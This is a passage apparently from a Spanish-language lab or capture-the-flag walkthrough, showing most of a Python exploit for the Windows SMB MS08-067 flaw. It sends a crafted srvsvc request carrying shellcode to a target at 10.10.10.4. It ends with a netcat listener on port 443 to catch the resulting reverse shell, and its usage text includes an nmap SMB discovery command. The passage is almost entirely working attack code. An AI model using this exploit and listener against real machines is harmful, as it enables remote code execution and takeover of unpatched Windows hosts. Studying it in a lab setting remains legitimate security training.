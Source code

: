 ```python=
            # *SMBSERVER is used to force the library to query the server for its NetBIOS name and use that to 
            #   establish a NetBIOS Session.  The NetBIOS session shows as NBSS in Wireshark.

            self.__trans = transport.SMBTransport(remoteName='*SMBSERVER', remote_host='%s' % self.target, dstport = int(self.port), filename = '\\browser' )
        
        self.__trans.connect()
        print('[-]connected to ncacn_np:%s[\\pipe\\browser]' % self.target)
        self.__dce = self.__trans.DCERPC_class(self.__trans)
        self.__dce.bind(uuid.uuidtup_to_bin(
            ('4b324fc8-1670-01d3-1278-5a47bf6ee188', '3.0')))
        path = "\x5c\x00" + "ABCDEFGHIJ" * 10 + shellcode + "\x5c\x00\x2e\x00\x2e\x00\x5c\x00\x2e\x00\x2e\x00\x5c\x00" + \
            "\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00" + jumper + "\x00" * 2
        server = "\xde\xa4\x98\xc5\x08\x00\x00\x00\x00\x00\x00\x00\x08\x00\x00\x00\x41\x00\x42\x00\x43\x00\x44\x00\x45\x00\x46\x00\x47\x00\x00\x00"
        prefix = "\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x5c\x00\x00\x00"
        
        # NEW HOTNESS
        # The Path Length and the "Actual Count" SMB parameter have to match.  Path length in bytes
        #   is double the ActualCount field.  MaxCount also seems to match.  These fields in the SMB protocol
        #   store hex values in reverse byte order.  So: 36 01 00 00  => 00 00 01 36 => 310.  No idea why it's "doubled"
        #   from 310 to 620.  620 = 410 shellcode + extra stuff in the path.
        MaxCount = "\x36\x01\x00\x00"  # Decimal 310. => Path length of 620.
        Offset = "\x00\x00\x00\x00"
        ActualCount = "\x36\x01\x00\x00" # Decimal 310. => Path length of 620

        self.__stub = server + MaxCount + Offset + ActualCount + \
            path + "\xE8\x03\x00\x00" + prefix + "\x01\x10\x00\x00\x00\x00\x00\x00"        

        return

    def run(self):
        self.__DCEPacket()
        self.__dce.call(0x1f, self.__stub)
        time.sleep(3)
        print('Exploit finish\n')

if __name__ == '__main__':
       try:
           target = sys.argv[1]
           os = 6
           port = 445
       except IndexError:
                print('\nUsage: %s <target ip> \n' % sys.argv[0])
                print('Example: MS08_067_2018.py 10.10.10.4 ')
                print 'nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4'
                sys.exit(-1)


current = SRVSVC_Exploit(target, os, port)
current.start()
```
Ponemos a la escucha el netcat en el puerto especificado a la hora de la generación de la shellcode.
```
nc -lnvp 443
listening on [any] 443 ...
```
